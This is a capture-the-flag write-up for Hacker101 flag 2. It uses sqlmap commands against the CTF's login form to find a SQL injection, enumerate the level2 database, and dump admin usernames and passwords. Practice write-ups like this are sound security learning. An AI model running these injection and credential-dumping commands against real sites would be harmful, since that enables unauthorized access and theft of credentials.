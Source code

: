 # Hacker101-CTF FLAG 2

We want to try and obtain the username and password to log in. In the previous flag, we noticed that we could get through without the username, but what about the password?

In this case, we already know that the input fields are susceptible to SQL Injection (SQLI). So, maybe we can exploit it using sqlmap.

First of all, I'm going to go ahead and try to obtain the databases if there is any vulnerability.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs
```

-u specifies the URL of the login form.
--data provides the form data that would normally be sent to the server. Here, username=admin&password=admin is an example; you should replace these values with the ones you have captured.
--method=POST indicates that the request is of type POST.
--dbs tells sqlmap to list the available databases if a vulnerability is found.

I'm getting this message:

[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

I'm going to try and increase the level value to 2.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST --dbs --level 2
```

Looks like I'm getting more juice this time!

[INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] Y

I'm getting this message as well. I'm going to go ahead and try to exploit only the username field.

[INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N

Finally got some results! I got all the databases. I'm going to take a look into the level2 database.

![sqlmap_databases](sqlmap_databases.png)

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 --tables
```

![sqlmap_tables](sqlmap_tables.png)

Let's get into the admins table and see its columns.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins --columns
```

![sqlmap_columns](sqlmap_columns.png)

Now let's have a look at the usernames! Dump it!

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C username --dump
```
![sqlmap_usernames](sqlmap_username.png)

Now let's retrieve the password.

```bash
sqlmap -u "https://{HEX_VALUE_HERE}.ctf.hacker101.com/login" --data="username=admin&password=admin" --method=POST -D level2 -T admins -C password --dump
```

![sqlmap_password](sqlmap_password.png)

Now lets try log in. Got it! We have the last flag


